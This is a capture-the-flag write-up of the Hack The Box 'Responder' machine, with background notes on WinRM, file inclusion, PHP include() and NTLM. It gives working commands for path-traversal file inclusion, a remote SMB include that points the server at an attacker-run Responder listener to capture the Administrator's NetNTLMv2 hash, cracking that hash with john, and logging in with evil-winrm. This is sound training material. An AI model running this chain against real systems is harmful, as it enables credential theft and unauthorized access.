```yaml
---
layout: post
title: 00 - Responder
date: 2022-08-20
categories: [Writeups,HTB,Very_Easy,Responder]
tags: [SAMBA,WinRM]
---
```


# Intro
| Dificulty | OS | Start Date | End Date |
|---|---|---|---|
| Very Easy | Windows | 24/05/2022 | 24/05/2022 |


# Thought process
1. View running services with `nmap`.
2. Edit `/etc/hosts` for being able to see the web.
3. Check how web works and think if I can attack doing File Inclusion.
4. Capture Administrator NTLM.
5. Dump hash file to get Administrator Password.
6. Connect with WinRM and find flag file.


# Resolution
Edit `/etc/hosts` like this:
```bash
@IP unika.htb
```

Test the "page" parameter to see if we can access to some commonly known files that will have the same name across networks, Windows domains, and systems. [Link](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt)
The most common file to check as Pentester is `WINDOWS\System32\drivers\etc\hosts`.
Final URL: `page=../../../../../../../../windows/system32/drivers/etc/hosts` 
The file incluson was made possible thanks to `include()` method of php is being used by page parameter to load differents `.html` depending the lengague of the site.

In the PHP configuration file `php.ini` , "allow_url_include" wrapper is set to "Off" by default, indicating that PHP does not load remote HTTP or FTP URLs to prevent remote file inclusion attacks. However, even if allow_url_include and allow_url_fopen are set to "Off", PHP will not prevent the loading of SMB URLs. 
We can use `Responder` to steal NTLM hash.
```bash
$ sudo python3 Responder.py -I tun0
```

Now we tell the server to include a resource from our SMB Server by setting the "page" parameter.
```
http://unika.htb/?page=//@IP/somefile
```

The server will try to finde the file but it doesn't exists. Mean while, we captured the NetNTLMv for the Administrator User. Now with `john` we can dump the hash.
```bash
$ john -w=/usr/share/wordlists/rockyou.txt hash.txt
```
[hash.txt]: Is the hash captured with Responder and redirected to a file.

Finally, with the username and password, we can WinRM the machine to find if there's any file with the Flag.
```bash
$ evil-winrm -i @IP_Server -u administrator -p badminton
```
[type]: Command to view the content.


# WinRM
Windows-native built-in remote management protocol that basically uses Simple Object Access Protocol to interact with remote computers and servers, as well as Operating Systems and applications. 
WinRM allows the user to : 
	→ Remotely communicate and interface with hosts 
	→ Execute commands remotely on systems that are not local to you but are network accessible. 
	→ Monitor, manage and configure servers, operating systems and client machines from a remote location
[//]: We can find credentials (typically username and password) for a user who has remote management privileges and execute PS.


# File Inclusion Vulnerability
Dynamic websites include HTML pages on the fly based on some of the parameters (Cookies, POST parameters...)

## Local
Local File Inclusion occurs when an attacker is able to get a website to include a file that was not intended to be an option for this application. A common example is when the attacker can use `../` in the inputted file and view sensitive files of the server.

## Remote
Similar to LFI but in this case it is possible for an attacker to load a remote file on the host using protocols like HTTP, FTP etc.


# include()
```php
File 1 --> vars.php 
<?php

$color = 'green';
$fruit = 'apple';

?>

############################################# 

File 2 --> test.php
<?php

echo "A $color $fruit"; // output = "A"
include 'vars.php';
echo "A $color $fruit"; // output = "A green apple"

?>
```
More info about php include(). [Link](https://www.php.net/manual/en/function.include.php)


# NTLM
Collection of authentication protocols created by Microsoft. It is a challenge-response authentication protocol used to authenticate a client to a resource on an Active Directory domain.
1. The client sends the user name and domain name to the server. 
2. The server generates a random character string, referred to as the challenge. 
3. The client encrypts the challenge with the NTLM hash of the user password and sends it back to the server. 
4. The server retrieves the user password (or equivilent). 
5. The server uses the hash value retrieved from the security account database to encrypt the challenge string. The value is then compared to the value received from the client. If the values match, the client is authenticated.

More info about NTLM. [Link](https://www.ionos.com/digitalguide/server/know-how/ntlm-nt-lan-manager/)


# Responder
! It can be used in a lot of ways, in this CTF is going to recreate a SMB Server.

When the target machine attempts to perform the NTLM authentication to that server, Responder sends a challenge back for the server to encrypt with the user's password. When the server responds, Responder will use the challenge and the encrypted response to generate the NetNTLMv2. While we can't reverse the NetNTLMv2, we can try many different common passwords to see if any generate the same challenge response, and if we find one, we know that is the password.